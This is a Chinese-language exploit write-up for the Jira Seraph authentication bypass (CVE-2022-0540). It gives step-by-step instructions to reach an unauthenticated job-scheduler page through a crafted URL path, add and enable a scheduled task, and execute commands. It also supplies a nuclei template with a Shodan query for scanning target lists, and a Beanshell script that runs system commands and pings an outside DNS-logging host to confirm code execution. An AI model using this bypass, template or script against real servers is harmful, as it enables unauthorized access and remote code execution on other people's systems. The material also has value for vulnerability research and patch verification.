

# Atlassian Jira Seraph 认证绕过远程代码执行漏洞（CVE-2022-0540）


## 利用细节

根据漏洞作者文章的描述，atlassian 官方发布了一个很长的受影响的插件的列表（绝大部分是误报），而作者给出了几个实际受影响的插件名称


根据提示的利用条件，结合 WBS Gantt-Chart for Jira 插件的 [官方文档](https://ricksoft-support.atlassian.net/wiki/spaces/WGCE0914/pages/2930802887/Global+job+scheduler+settings+-+aggregating+reflecting+time+tracking+and+calculating+progress+rate)


本质上就是利用 job scheduler 模块 Task 的 Beanshell Script 实现 RCE，利用过程如下

1. （为方便操作）使用 Burp 代理的替换功能 `Proxy > Options > Match and Replace` 新建规则


2. 开启 Burp 代理访问目标 Jira ，访问 `http://IP:PORT/secure/WBSGanttManageScheduleJobAction.jspa;` 绕过认证查看 `job scheduler configuration`


由于我们最终执行的 Beanshell Script 是作为定时任务执行，为方便可以修改一下执行的间隔，点击 Edit 参照 Cron 格式修改即可

3. 新建 Task


4. 配置 Task


配置完成后点击 Update 自动跳转到 login page，但后台Task实际已经添加上了

5. 使能 Task


新创建的 Task 默认都是 Disable 状态，需要手动将其修改为 Enable 状态，然后等待几秒 Script 执行

6. 得到 DNSLOG 记录


同时 job scheduler 中可以看到命令执行完成的提示


利用前提

```
WBS Gantt-Chart for Jira <= 9.14.3.1
```


## 验证可利用

```yaml
id: CVE-2022-0540

info:
  name: Atlassian Jira Seraph - Authentication Bypass Verify Exploitable(CVE-2022-0540)
  author: DhiyaneshDK
  severity: critical
  description: |
    Jira Seraph allows a remote, unauthenticated attacker to bypass authentication by sending a specially crafted HTTP request. This affects Atlassian Jira Server and Data Center versions before 8.13.18, versions 8.14.0 and later before 8.20.6, and versions 8.21.0 and later before 8.22.0. This also affects Atlassian Jira Service Management Server and Data Center versions before 4.13.18, versions 4.14.0 and later before 4.20.6, and versions 4.21.0 and later before 4.22.0.
  reference:
    - https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
    - https://nvd.nist.gov/vuln/detail/CVE-2022-0540
    - https://confluence.atlassian.com/display/JIRA/Jira+Security+Advisory+2022-04-20
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2022-0540
    cwe-id: CWE-287
  metadata:
    shodan-query: http.component:"Atlassian Jira"
  tags: cve,cve2022,atlassian,jira,exposure,auth-bypass

requests:
  - method: GET
    path:
      - '{{BaseURL}}/secure/WBSGanttManageScheduleJobAction.jspa;'

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'WBS Gantt-Chart'

      - type: regex
        regex:
          - '<td headers="name">([.|\D]*?)</td>'
        dsl: []

      - type: status
        status:
          - 200

```

运行示例

```
nuclei -l targets.txt -t exploit.yaml
```

运行截图




## 参考链接

https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/

https://ricksoft-support.atlassian.net/wiki/spaces/WGCE0914/pages/2930802887/Global+job+scheduler+settings+-+aggregating+reflecting+time+tracking+and+calculating+progress+rate

Beanshell Script

```java
import java.io.IOException;
import java.lang.*;

Runtime runtime = Runtime.getRuntime();

try {
	String command = "ping -nc 1 55d2721a.dns.1433.eu.org";

    if (System.getProperty("os.name").toLowerCase().contains("windows")) {
    	runtime.exec(new String[]{"cmd.exe", "/c", command});
    } else {
    	runtime.exec(new String[]{"/bin/bash", "-c", command});
    }

} catch (IOException e) {
	e.printStackTrace();
}

```

